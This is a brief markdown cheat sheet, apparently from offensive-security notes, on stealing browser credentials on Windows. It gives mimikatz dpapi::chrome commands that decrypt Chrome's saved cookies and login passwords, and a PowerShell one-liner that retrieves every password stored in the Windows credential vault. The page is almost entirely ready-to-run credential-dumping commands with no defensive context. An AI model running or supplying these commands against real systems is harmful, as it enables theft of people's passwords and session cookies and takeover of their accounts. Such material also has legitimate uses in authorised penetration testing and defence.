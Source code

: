 # Browser cookies & passwords

## Chrome

When running as the current user, the /unprotect flag will use the current keys to decrypt the DPAPI data.

### Cookies

```text
mimikatz dpapi::chrome /in:”%localappdata%\Google\Chrome\User Data\Default\Cookies” /unprotect
```

### Saved login data

```text
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

## Internet Explorer

```text
powershell echo "Begin";[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime];$vault = New-Object Windows.Security.Credentials.PasswordVault; $vault.RetrieveAll() | % { $_.RetrievePassword();echo $_; };echo "Done"
```


